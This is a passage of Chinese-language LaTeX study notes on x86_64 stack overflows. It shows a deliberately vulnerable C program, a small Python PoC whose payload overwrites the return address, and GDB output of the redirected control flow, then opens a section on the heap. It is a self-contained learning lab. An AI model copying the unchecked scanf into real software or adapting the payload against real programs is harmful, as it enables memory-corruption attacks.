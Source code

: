 \documentclass[12pt]{article}  %
\begin{document}
2. x86\_64架构采用的是小端字节序，所以存储起来刚好相反。 \par
在这里要区分，指令push，pop对rsp进行操作时，与一般情况是反的，但数据存入内存中时，还是从低地址向高地址存储的。\par
为了直观完成返回地址覆盖的实验，我使用下面程序进行调试：
\begin{lstlisting}[language=sh]
 #include <stdio.h>
 #include <string.h>
 void test(){
     char str[10];
     scanf("%s",&str);
     printf("%s\n",str);
 }
 int main(int argc,const char*argv[]){
     test();
     printf("finish test\n");
     printf("tmp\n");
     printf("jump here\n");
     return 0;
 }
\end{lstlisting}\par
构建POC为：
\begin{lstlisting}[language=c]
import os

def print_unvisible():
    str = '12345678abcdefgh\xa0\xd9\xff\xff\xff\xf7\x00\x00\xbb\x05\x40\x00\x00\x00\x00\x00'
    print str

if __name__ == "__main__":
    print_unvisible()
\end{lstlisting}\par
GDB调试过程中，重定向了IO流：
\begin{lstlisting}[language=sh]
gef➤  run <input.txt 
Starting program: /home/csober/Documents/Github/how2stack/first_fist/scanf-nsp <input.txt
12345678abcdefgh������
jump here

Program received signal SIGBUS, Bus error.
\end{lstlisting}\par
最后提示\emph{Bus error}，不知道具体原因，但实现了返回地址的覆盖，就暂时告一段落吧。\par
针对GDB调试重定向的问题，Github中给出一个有用的插件：https://github.com/Ovi3/pstdio，下次遇到必需的时候再来研究下。
\section{Heap} %
\label{sec:自动化工具}
\ \ \ Heap是程序运行过程中一段特殊的内存空间，Heap主要用于满足进程的动态内存请求。这一章节我会就Heap的类型、Linux下操作函数，及如何利用GDB来查看Heap空间的分配情况。
\end{document}
